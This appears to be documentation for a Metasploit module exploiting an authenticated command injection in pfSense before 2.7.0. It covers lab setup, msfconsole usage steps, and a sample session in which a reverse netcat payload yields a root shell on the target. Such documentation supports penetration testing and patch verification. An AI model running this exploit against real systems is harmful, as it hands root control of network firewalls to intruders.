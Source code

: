## Vulnerable Application

This module exploits an authenticated command injection vulnerability in the `restore_rrddata()` function of
pfSense prior to 2.7.0 which allows an authenticated attacker with the `WebCfg - Diagnostics: Backup & Restore` privilege
to execute arbitrary operating system commands as the `root` user.

This module has been tested successfully on version 2.6.0-RELEASE.

### Installing the Application
Download the ISO from [pfSense 2.6.0-RELEASE](https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.6.0-RELEASE-amd64.iso.gz)
and then create a VMWare or VirtualBox VM using this ISO.

Note that you may wish to use the BIOS boot method when prompted for which method to use for installation, 
rather than ZFS or UEFI for testing purposes, just to simplify setup. Otherwise you can accept the default settings.

Once installation is finished you should be prompted to reboot. Reboot, then enter `n` when asked if you want to set up VLANs.

For the WAN prompt enter `em0` which should work, or whatever one other than `a` that appears in the prompt and hit ENTER.

Wait for setup to complete then try to browse to `http://<IP ADDRESS SHOWN HERE>/` replacing the
placeholder with the IP address shown in the prompt. You should see the login page for pfSense.

Log in with username `admin` and password `pfsense`. There should be a setup GUI that appears. Accept all the defaults
and keep clicking `Next` at each of the steps and then `Finish` at the final step. Finally click `Accept` on the export
warning page and `Close` on the following popup. You should now see the main dashboard and should be ready to test the
module.

## Verification Steps
1. Start `msfconsole`
2. Do: `use exploit/unix/http/pfsense_config_data_exec`
3. Do: `set RHOST [IP]`
4. Do: `set USERNAME [username]`
5. Do: `set PASSWORD [password]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options

## Scenarios

### pfSense Community Edition 2.6.0-RELEASE

```
msf exploit(unix/http/pfsense_config_data_exec) > use exploit/unix/http/pfsense_config_data_exec 
[*] Using configured payload cmd/unix/reverse_netcat
msf exploit(unix/http/pfsense_config_data_exec) > set RHOST 1.1.1.1
RHOST => 1.1.1.1
msf exploit(unix/http/pfsense_config_data_exec) > set LHOST 2.2.2.2
LHOST => 2.2.2.2
msf exploit(unix/http/pfsense_config_data_exec) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] pfSense version: 2.6.0-RELEASE
[+] The target is vulnerable.
[*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:21942) at 2023-03-26 02:10:48 +0300

id
uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
```
